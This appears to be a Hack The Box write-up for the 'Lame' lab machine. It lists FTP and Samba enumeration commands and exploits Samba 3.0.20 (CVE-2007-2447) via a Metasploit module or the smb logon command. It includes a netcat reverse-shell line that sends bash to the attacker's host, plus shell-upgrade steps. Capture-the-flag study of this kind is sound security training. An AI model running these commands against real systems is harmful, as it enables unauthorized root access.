 ![](assets/banner.png)


<p align="center">
  <img src="assets/htb.png" alt='HTB_logo'>
</p>


#### Enumeration 
- Open ports `21,22,139,445`
- FTP `anonymous` login allowed, nothing enumerated
- Enumerating the samba shares, `tmp` share is accessable
- Confirming the shared folders accessability via `enum4linux`
- Searchsploit on `samba 3.0.20` reveals `CVE-2007-2447`


#### Obtaining Shell
##### With MSF:
- `use exploit/multi/samba/usermap_script`
- Setting rhosts, and exploit
- Obtained shell as `root` 

##### With Samba logon():
- logging into the /tmp shared folder
- using the logon command available for smb, a reverse shell is obtained via nc
- Obtained shell as `root`

#### Commands:

**ftp anonymous login**
```bash
ftp 10.10.10.3
> password: <ENTER>
```

**Samba enumeration**
```bash
# smbclient enumeration
smbclient -L 10.10.10.3
# enum4linux
enum4linux -S 10.10.10.3
# accessing shared folders via smbclient
smbclinet //10.10.10.3/tmp
```

**Netcat commands**
```bash
# Obtaining a reverse shell, sends the remote machine's(LAME's) bash to hacker's machine (10.10.14.6)
nc 10.10.14.6 1337 -e /bin/bash
# waiting dfor incoming connection
nc -lvnp 1337
```

**Interactive shell**
```bash
# waiting for the connection
nc -lvnp 1337
# after getting connection, confirming the version of python
which python
# obtaining bash via python
python -c 'import pty;pty.spawn("/bin/bash");'
# to use tab auto completion
<ctrl + z>
stty raw -echo
fg
<enter>
<enter>
# Fully interactive shell obtained
```
